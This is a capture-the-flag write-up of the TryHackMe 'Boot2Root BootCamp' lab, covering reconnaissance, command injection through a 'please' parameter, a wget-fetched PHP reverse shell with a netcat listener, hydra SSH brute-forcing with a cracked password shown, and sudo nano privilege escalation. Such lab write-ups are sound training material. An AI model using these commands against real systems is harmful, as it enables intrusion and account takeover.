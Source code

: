 ## Boot2Root BootCamp [THM]



Link: https://tryhackme.com/room/boot2rootbootcamp

Goal: user.txt and root.txt

## nmap
```
nmap -sC -sV 10.10.0.138 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-03 10:21 EDT
Nmap scan report for 10.10.0.138
Host is up (0.24s latency).
Not shown: 989 closed tcp ports (conn-refused)
PORT      STATE    SERVICE         VERSION
22/tcp    open     ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 21:e3:e7:8d:9b:87:30:20:54:1a:e7:f8:13:67:20:ca (RSA)
|   256 6d:e0:a0:84:28:52:cc:9f:52:90:56:90:d4:68:fb:33 (ECDSA)
|_  256 07:ee:49:b0:03:ca:4f:a4:bd:ae:ae:0d:80:36:8e:ac (ED25519)
80/tcp    open     http            Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/th15_1mp0551bl3_t0_f1nd/
|_http-title: Hello There!
1152/tcp  filtered winpoplanmess
2725/tcp  filtered msolap-ptp2
3370/tcp  filtered satvid-datalnk
6667/tcp  filtered irc
7000/tcp  filtered afs3-fileserver
16016/tcp filtered unknown
19801/tcp filtered unknown
25734/tcp filtered unknown
27355/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.19 seconds
```
- port 22 open
- port 80 open

## view web [port 80]

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/a9305310-0b93-4910-82b4-cde266bd1bc4)

## dirsearch

```
dirsearch -u 10.10.0.138 
                                                                                           
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Target: http://10.10.0.138/

[10:33:37] Starting:                                            
[10:34:35] 200 -  938B  - /images/                                                 
[10:34:36] 200 -  535B  - /index.html                                       
[10:34:54] 200 -   50B  - /robots.txt                                       
                                                                             
Task Completed
```
- /robots.txt

## robots.txt

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/da0afcd7-0136-4c29-a022-2b3fd404a49b)

- found directory /th15_1mp0551bl3_t0_f1nd/

## dirsearch /th15_1mp0551bl3_t0_f1nd/

```
dirsearch -u 10.10.0.138/th15_1mp0551bl3_t0_f1nd/
                                                                                                          
Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Target: http://10.10.0.138/th15_1mp0551bl3_t0_f1nd/

[10:39:10] Starting:                   
[10:40:05] 200 -  228B  - /th15_1mp0551bl3_t0_f1nd/index.php                
[10:40:05] 200 -  228B  - /th15_1mp0551bl3_t0_f1nd/index.php/login/         
                                                                            
Task Completed 
```

- /th15_1mp0551bl3_t0_f1nd/index.php

## index.php

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/cfe24485-2750-49dc-aa76-f5513722915a)

- the bold "please" maybe a hint for this page

## exploit using parameter please [basic RCE]

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/c954b127-5ed3-4492-bc76-baa7790e0848)

- payload `index.php?please=whoami`

## upload reverse shell using wget

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/b4aaad46-51fa-438a-83a1-b7cfcfd51cbb)

- create php reverse shell, open python web server `python3 -m http.server <port>` to transfer from local to server

## setup netcat listener

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/caeae79e-b4e0-4244-9905-b3616c7e19a5)

- goto `http://10.10.0.138/th15_1mp0551bl3_t0_f1nd/rev.php` dont forget to open listener `nc -lnvp 1337` on terminal
- `python3 -c 'import pty;pty.spawn("/bin/bash")'` to upgrade shell
- `export TERM=xterm` enable clear

## cd /home/human

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/87a0bdbe-4a58-4d8d-b548-36ccc42c9834)

- user.txt
- password_list.txt

## user.txt

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/97c1876b-a001-405c-97a2-6701a32042a9)

## download password_list.txt

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/fd7f31df-c871-4759-b906-31a07e1a3374)

- same process with upload reverse shell, but this from server to local

## hydra [bruteforce ssh password]

```
hydra -l human -P password_list.txt 10.10.0.138 ssh -t 4 -V

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
[DATA] max 4 tasks per 1 server, overall 4 tasks, 38 login tries (l:1/p:38), ~10 tries per task
[DATA] attacking ssh://10.10.0.138:22/
[22][ssh] host: 10.10.0.138   login: human   password: cuteyadmin
```

- found Username: human, Password: cuteyadmin

## connect ssh [port 22]

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/b8a0decb-0bce-44dd-bdb4-037f35a8eccc)

- using credentials found from hydra

## privilege escalation

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/59816c82-2995-42dc-b98c-b167107c4d41)

- using `sudo -l`

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/aa909129-ee16-46b3-8671-329476d6bd24)

- Search GTFObins for [nano](https://gtfobins.github.io/gtfobins/nano/)

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/b55b6c18-f050-4a7d-afc8-fe84e7c44296)

- root!

## root.txt

![image](https://github.com/0hanif0/B2R-Writeups/assets/23289982/45361027-e1fa-4e3e-8cc2-c946f667555f)

- PWNED! ⭐
